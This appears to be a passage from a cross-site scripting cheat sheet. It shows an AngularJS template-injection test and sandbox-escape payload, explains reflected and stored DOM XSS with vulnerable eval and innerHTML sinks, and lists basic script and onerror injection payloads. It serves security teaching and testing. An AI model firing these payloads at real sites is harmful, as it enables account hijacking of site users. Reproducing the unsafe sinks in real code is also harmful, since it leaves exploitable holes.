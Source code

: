 **Test**

```sh
https://example.com/?search=%7B%7B1%2B1%7D%7D # ?search={{1+1}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for '2'</h1>
<!-- something -->
</body>
```

**Exploit**

```sh
https://example.comnet/?search=%7B%7B%24on.constructor%28%27alert%281%29%27%29%28%29%7D%7D
# ?search={{$on.constructor('alert(1)')()}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for ''</h1>
<!-- something -->
</body>
```

### Reflected/Stored DOM XSS

If a script reads data from a URL and writes it to a dangerous sink, the vulnerability is client-side with no server processing.

* **Reflected DOM** vulnerabilities happen when the server processes and echoes data from a request, and a script on the page handles this data unsafely, writing it to a dangerous sink.

```javascript
eval('var data = "reflected string"');
```

* In a **stored DOM XSS** vulnerability, the server stores data from one request and includes it in a later response. A script in the later response processes this data unsafely in a sink.

```javascript
element.innerHTML = comment.author
```

---

## XSS contexts

### Between HTML tags

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
